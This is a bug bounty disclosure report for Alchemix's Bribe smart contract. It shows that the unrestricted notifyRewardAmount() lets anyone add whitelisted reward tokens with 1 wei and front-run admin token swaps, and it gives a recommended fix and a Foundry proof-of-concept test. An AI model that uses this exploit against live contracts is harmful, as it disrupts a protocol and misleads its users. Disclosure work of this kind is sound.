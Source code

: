 
# Alchemix : addReward() access control can be bypassed in Bribe contract

Submitted on Sun May 19 2024 16:24:08 GMT-0400 (Atlantic Standard Time) by @Norah for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31462

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value

## Description
## Brief/Intro
The bribe contract has an access-controlled function `addRewardToken()` that allows only the corresponding gauge to add a new reward token to the rewards list. Although many tokens are whitelisted by the voter contract, only the gauge can determine which of these whitelisted tokens should be added to the bribe contract as a reward token.

```solidity
    function addRewardToken(address token) external {
        require(msg.sender == gauge, "not being set by a gauge");
       
        _addRewardToken(token);
    }
```

```solidity
    function _addRewardToken(address token) internal {
        if (!isReward[token] && token != address(0)) {
            require(rewards.length < MAX_REWARD_TOKENS, "too many rewards tokens");
            require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");

            isReward[token] = true;
            rewards.push(token);
        }
    }
```

## Vulnerability Details
The problem lies in the `notifyRewardAmount()` function, which lacks any access control. This function allows anyone to inject a reward into the bribe contract by specifying the token address and amount. If the token is whitelisted but not yet added to the rewards list, it will simply be added.
```
    function notifyRewardAmount(address token, uint256 amount) external lock {
        require(amount > 0, "reward amount must be greater than 0");

        // If the token has been whitelisted by the voter contract, add it to the rewards list
        require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");

        _addRewardToken(token);

        // bribes kick in at the start of next bribe period
        uint256 adjustedTstamp = getEpochStart(block.timestamp);
        uint256 epochRewards = tokenRewardsPerEpoch[token][adjustedTstamp];

        IERC20(token).safeTransferFrom(msg.sender, address(this), amount);

        tokenRewardsPerEpoch[token][adjustedTstamp] = epochRewards + amount;
        periodFinish[token] = adjustedTstamp + DURATION;

        emit NotifyReward(msg.sender, token, adjustedTstamp, amount);
    }

```
As a result, anyone can add a whitelisted token to the bribe contract by calling `notifyRewardAmount()` function with the token address and a minimal amount of 1 wei.
 
## Impact Details
Malicious users can add numerous reward tokens to the bribe, misleading users or external projects querying the list of reward tokens for a particular bribe contract. Additionally, there is a `swapOutRewardToken()` function that allows the admin of the voter contract to swap out reward tokens.

The admin must call `swapOutRewardToken(uint256 oldTokenIndex, address oldToken, address newToken)` with the respective indexes of the tokens they wish to swap out. A malicious user (e.g., an aggressive competitor) can front-run the admin's transaction by calling `notifyRewardAmount()`, adding new tokens and thereby changing the previous token indexes to alter the intended outcome of the admin's transaction. This can also lead to a denial of service (DoS) for other normal functionalities, at least temporarily.

## Recommendation 
Remove the functionality that allows any user to add reward tokens by calling `notifyRewardAmount().`

```
    function notifyRewardAmount(address token, uint256 amount) external lock {
        require(amount > 0, "reward amount must be greater than 0");

        // If the token has been whitelisted by the voter contract, add it to the rewards list
        require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");

---   _addRewardToken(token);

        // bribes kick in at the start of next bribe period
        uint256 adjustedTstamp = getEpochStart(block.timestamp);
        uint256 epochRewards = tokenRewardsPerEpoch[token][adjustedTstamp];

        IERC20(token).safeTransferFrom(msg.sender, address(this), amount);

        tokenRewardsPerEpoch[token][adjustedTstamp] = epochRewards + amount;
        periodFinish[token] = adjustedTstamp + DURATION;

        emit NotifyReward(msg.sender, token, adjustedTstamp, amount);
    }
```
        
## Proof of concept
## Proof of Concept
- Below test showcases how any users can add any whitelisted token to the `rewardlist` using `notifyRewardAmount()` function.
- Add the below test into the `voting.t.sol` file of the current test suite and run via following command :
- forge test --fork-url https://eth-mainnet.g.alchemy.com/v2/{Alchemy-Api-Key} --match-test "testRewardTokenAddition" -vv

```

    function testRewardTokenAddition() public{

        //lets whitelist usdc for the sake of example.    
        hevm.prank(address(timelockExecutor));
        IVoter(voter).whitelist(usdc);

        //current reward token in the list.
        address bribeAddress = voter.bribes(address(sushiGauge));
        uint256 rewardsLength = IBribe(bribeAddress).rewardsListLength();
        console2.log("rewards_list : ",IBribe(bribeAddress).rewards(rewardsLength-1));

        //Malicious User calling the notifyRewardAmount to add USDC as rewards token into the list 
        //with the usdc address and just 1 wei of amount

        deal(usdc, address(this), 1);
        IERC20(usdc).approve(bribeAddress, 1);

        IBribe(bribeAddress).notifyRewardAmount(usdc, 1);
        rewardsLength = IBribe(bribeAddress).rewardsListLength();

        //usdc has been added to the rewards list.
        console2.log("rewards_list : ",IBribe(bribeAddress).rewards(rewardsLength-1));
        assertEq(IBribe(bribeAddress).rewards(rewardsLength-1),usdc); 
        
    }

```